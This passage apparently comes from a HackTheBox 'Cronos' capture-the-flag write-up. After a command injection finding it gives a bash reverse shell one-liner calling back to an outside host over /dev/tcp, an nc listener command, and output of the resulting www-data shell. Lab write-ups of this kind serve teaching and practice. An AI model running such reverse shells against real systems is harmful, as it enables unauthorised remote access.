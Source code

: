 ![command_injection](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Cronos/command_injection.png?raw=true)

Great, it seems like we can issue some malicious commands. Let’s start a listener and inject a bash reverse shell command `bash -c 'exec bash -i &>/dev/tcp/10.10.14.9/1234 <&1'`.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Cronos]
└─# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.13] 39618
bash: cannot set terminal process group (1388): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cronos:/var/www/admin$ whoami
www-data
```
